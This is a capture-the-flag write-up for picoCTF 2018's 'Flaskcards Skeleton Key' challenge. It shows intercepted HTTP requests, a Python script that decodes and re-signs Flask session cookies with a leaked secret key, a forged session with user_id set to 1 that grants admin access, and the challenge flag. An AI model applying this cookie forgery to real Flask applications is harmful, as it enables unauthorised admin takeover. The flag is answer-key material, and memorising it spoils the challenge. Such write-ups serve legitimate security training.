



# Flaskcards Skeleton Key - 600 points

Nice! You found out they were sending the `Secret_key: a155eb4e1743baef085ff6ecfed943f2`. Now, can you find a way to log in as admin? [link](http://2018shell1.picoctf.com:53588).

Hint: What can you do with a flask Secret_Key?

### Solution
###### Writeup by asinggih

This particular challenge seems to be a continuation of the previous [Flaskcards](./flaskcards) challenge. Now that we have the Flask's `Secret_key`, what can we do with it? There is an admin tab after we're logged in as a general user. However, it says that we're not an admin and there's nothing to see there.

<p align="center">
	
</p>

In order to login as an admin, first, I created a new flash card, while intercepting the request by using burpsuite.

<p align="center">
	
</p>


```sh
POST /create_card HTTP/1.1
Host: 2018shell1.picoctf.com:53588
Content-Length: 152
Cache-Control: max-age=0
Origin: http://2018shell1.picoctf.com:53588
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://2018shell1.picoctf.com:53588/create_card
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=.eJwlj0uOAjEMBe-SNQvbcZyEy7Tin0BIIHXDajR3pyV2b1Olen9lyz2OW7m-909cynb3ci29V-hNx5yESu4GlGKh07uiZOTEBu1cvJIAMaiqoTVUHqqyMgVNOhuxNPGFVJlzKDBXnUJhrXcwPLVrSOvTAB3noKBgl1UuxY49t_frEc-zZwYjuocCgDdvwRpBTpzOLFqTiIlknNzniP13gqD8fwGlST6Z.DtjnWg.Sk7WxgzkWREY4N5ZLkHacHt47VU
Connection: close

csrf_token=IjllNDExZGRlYjAwMGQ1ZDVlNGJlZTJkMjRmZDQ0NmIzZjIyNDIyNjgi.DtjnXg.0UCAew6DkHVlw9J_WLIq-_QuwVg&question=How+are+you%3F&answer=good&submit=Create
```

We can see inside the intercepted http request that we have been assigned a session cookie by the server, and it's always interesting to see what's inside a session cookie. I tried to decode the session cookie using a base64 decoder, but it gave me a gibberish text. So i googled on how to decode a flask session, and do a bit of readings on Flask's method in creating the session cookies, I came across this [gist](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe), which helped me to decode the particular user's session cookie. I only did some modifications to fit my python environment and the challenge.

```python
#!/usr/bin/env python3
#
# Snippet was originally written by github.com/aescalana
# https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe
# 
# Some modifications were added to fit my python environment and the particular challenge
#	

import hashlib
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	# Override method
	# Take secret_key instead of an instance of a Flask app
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation='hmac',
			digest_method = hashlib.sha1
		)
		return URLSafeTimedSerializer(secret_key, salt='cookie-session',
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	sk = 'a155eb4e1743baef085ff6ecfed943f2'
	cookie = ".eJwlj0uOAjEMBe-SNQvbcZyEy7Tin0BIIHXDajR3pyV2b1Olen9lyz2OW7m-909cynb3ci29V-hNx5yESu4GlGKh07uiZOTEBu1cvJIAMaiqoTVUHqqyMgVNOhuxNPGFVJlzKDBXnUJhrXcwPLVrSOvTAB3noKBgl1UuxY49t_frEc-zZwYjuocCg"
	decodedDict = decodeFlaskCookie(sk, cookie)
	print(decodedDict)

	# cookie = encodeFlaskCookie(sk, sessionDict)
	
```

The code above spits out the decoded session cookie!

```
{
	'_fresh': True, 
	'_id': '773075b89921b2ddc02f6ceb9d7b16fef9150516f4af2011e23bc1c51b48bb6aff61c674c24656da12344f8b0443b962ec5770c102fa86579c01d1982e2e4d6a',
	'csrf_token': '9e411ddeb000d5d5e4bee2d24fd446b3f2242268', 
	'user_id': '20'
}
```

Looking at the decoded session, it can be seen that the `'user_id'` key seems to be quite important. According to this number, it is possible that the app generates the `user_id` sequentially. Moreover, it is also quite logical to think that an admin user / superuser should have a lower `user_id` number than my current user, since it should've been the first user to be created when creating this app. Therefore, I tried to modified the `user_id` into `0`, encoded back to its encoded form, and used it as the new session. Didn't work. Hence, i tried `1` as the `user_id`.

```python
# a continuation from the previous python code
	...
	return signingSerializer.dumps(cookieDict)

if __name__=='__main__':
	sk = 'a155eb4e1743baef085ff6ecfed943f2'
	...
	...
	modified_session = {
		'_fresh': True, 
		'_id': '773075b89921b2ddc02f6ceb9d7b16fef9150516f4af2011e23bc1c51b48bb6aff61c674c24656da12344f8b0443b962ec5770c102fa86579c01d1982e2e4d6a',
		'csrf_token': '9e411ddeb000d5d5e4bee2d24fd446b3f2242268', 
		'user_id': '1'
	}

	sessionDict = encodeFlaskCookie(sk, modified_session)
	print(sessionDict)

```

The print out of `sessionDict` can then be injected to the server by modifying the `session=.....` part of the previously intercepted http request when creating the flashcard.

```txt

POST /create_card HTTP/1.1
Host: 2018shell1.picoctf.com:53588
Content-Length: 152
Cache-Control: max-age=0
Origin: http://2018shell1.picoctf.com:53588
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://2018shell1.picoctf.com:53588/create_card
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=.eJwlj0uOAjEMBe-SNQvbcZyEy7Tin0BIIHXDajR3pyV2b1Olen9lyz2OW7m-909cynb3ci29V-hNx5yESu4GlGKh07uiZOTEBu1cvJIAMaiqoTVUHqqyMgVNOhuxNPGFVJlzKDBXnUJhrXcwPLVrSOvTAB3noKBgl1UuxY49t_frEc-zZwYjuocCgDdvwRpBTpzOLFqTiIlknNzniP13Asv_F2bsPmg.Dtj9xw.5K02CDzdrQET95f_qpME7gh9mS8
Connection: close

csrf_token=IjllNDExZGRlYjAwMGQ1ZDVlNGJlZTJkMjRmZDQ0NmIzZjIyNDIyNjgi.DtjnXg.0UCAew6DkHVlw9J_WLIq-_QuwVg&question=How+are+you%3F&answer=good&submit=Create

```

After forwarding the request, and created the card, I tried to visit the admin page again, and voila!

<p align="center">
	
</p>


## Flag
>Your flag is: picoCTF{1_id_to_rule_them_all_8f9d57f1}

